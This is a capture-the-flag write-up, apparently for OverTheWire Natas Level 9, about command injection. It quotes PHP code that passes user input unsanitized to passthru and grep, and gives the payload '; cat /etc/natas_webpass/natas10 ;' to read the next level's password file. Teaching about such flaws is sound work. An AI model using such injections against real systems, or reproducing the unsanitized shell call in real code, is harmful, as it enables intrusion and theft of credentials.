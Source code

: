 # Level 9
This level deals with command injection.

## Quest
We are present with a search box. I type `hello` in searchbox and get the following output.

![Level 9 Image](./images/Level9.png)

The backend PHP code is below, Lets comment it
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {   // Checks if "needle" key is present in GET request
    $key = $_REQUEST["needle"];               // If its there, assign it to var $key
} 

if($key != "") {                              // If key is not empty
    passthru("grep -i $key dictionary.txt");  // use it to run a shell command (Bad Practise!)
}
?>
```

<br/>

## Solution
From the above code, we can see that user input is passed to OS command without any sanitization, this code should be vulnerable to command injection.<br/><br/>
Our goal is to get password for the next level, i.e. access  `/etc/natas_webpass/natas10` .

<span id="green">Our payload  --></span> `; cat /etc/natas_webpass/natas10 ;` <br/>
_Terminate the `grep` command with `;` and view the password file and then terminate `cat` command with `;`_

<br/>
As evident from below screenshot, this gets us password for next Level.

![Level 9 solution](./images/Level9_solution.png)


<br/>

### How the payload works
```shell
# If user input is "hello", following command gets executed
grep -i hello dictionary.txt          # Searches dictionary.txt for word hello and displays output

# Now if we put our payload, command becomes
grep -i ; cat /etc/natas_webpass/natas10 ; dictionary.txt   #  ; terminates command
```
_`;` terminates `grep` command, runs our `cat` command and terminates it again._

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
